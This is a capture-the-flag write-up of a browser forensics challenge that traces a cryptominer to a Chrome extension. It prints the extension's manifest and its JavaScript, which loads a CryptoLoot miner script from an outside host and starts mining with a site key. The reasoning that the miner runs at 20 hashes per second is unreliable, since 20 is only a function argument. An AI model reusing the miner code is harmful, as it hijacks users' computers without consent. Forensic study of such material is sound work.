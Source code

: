# Browser Forensics - Cryptominer

Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications.  <br>

After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Note

The files for this challenge were too big to fit in the github repository (400+MB).

# Questions

## How many browser-profiles are present in Google Chrome?

Well, went and check how are profiles stored and checked my local to see the folder structure. Usually, the **Default** folder stores a user profile 

``` 
Default folder tree

+---Accounts
+---Application Cache
+---AutofillStrikeDatabase
+---blob_storage
+---BudgetDatabase
+---Cache
+---Code Cache
+---databases
+---data_reduction_proxy_leveldb
+---Extension Rules
+---Extension State
+---Extensions
+---Feature Engagement Tracker
+---File System
+---GCM Store
+---GPUCache
+---IndexedDB
+---JumpListIconsMostVisited
+---JumpListIconsRecentClosed
+---Local Extension Settings
+---Local Storage
+---Managed Extension Settings
+---Platform Notifications
+---Search Logos
+---Service Worker
+---Session Storage
+---Sessions
+---shared_proto_db
+---Site Characteristics Database
+---Storage
+---Sync Data
+---Sync Extension Settings
+---VideoDecodeStats
+---Web Applications
+---WebRTC Logs
```

Another folder, named **Profile 1**, had the same structure

**Answer:** 2

## What is the name of the browser theme installed on Google Chrome? 

If we go to **../Chrome/Default** and open the file **Preferences** we can see the json object that holds the browser settings. Searching for **theme** we can se the id in use

```json
"theme":{"id":"iiihlpikmpijdopbaegjibndhpgjmjfe","pack":"C:\\Users\\IEUser\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0"}
```

Going to the **iiihlpikmpijdopbaegjibndhpgjmjfe** folder and checking its **manifest** we can see at the top the theme URL which disclaims its name 

``` json
"web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
```

**Answer:** earth in space

## Identify the Extension ID and Extension Name of the cryptominer

Checking all the other **Extensions's** manifest we can find the cryptominer

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}
```

**Answer:** egnfmleidkolminhjlkaomjefheafbbb,DFP Cryptocurrency Miner

## What is the description text of this extension? 

This can be exfiltrated from the previous answer mentioned manifest

**Answer:** Allows staff members to mine cryptocurrency in the background of their web browser

## What is the name of the specific javascript web miner used in the browser extension? 

We can see the answer in the **.js** file within the extension folder

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })
 
	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();
 
		// Output to HTML elements...
	}, 1000);
</script>
``` 

**Answer:** CryptoLoot

## How many hashes is the crypto miner calculating per second?

From the **.js** we can see that directly

```js
var hashesPerSecond = miner.getHashesPerSecond(20);
```

**Answer:** 20

## What is the public key associated with this mining activity? 

Again, from the **.js**

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
```
**Answer:** b23efb4650150d5bc5b2de6f05267272cada06d985a0

## What is the URL of the official Twitter page of the javascript web miner? 

And, yet again, from the **.js** we can see that it is pulling some JavaScript dynamically 

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
```

Accessing it, Ctrl+U (to view source code), Ctrl+F -> twitter
```html
<div class="social-icons">
    <a href="https://www.facebook.com/cryptolootminer/"><span class="ti-facebook"></span></a>
    <a href="https://twitter.com/CryptoLootMiner"><span class="ti-twitter-alt"></span></a>
    <a href="https://www.reddit.com/r/CryptoLoot/"><span class="ti-reddit"></span></a>
</div>
```

**Answer:** twitter.com/CryptoLootMiner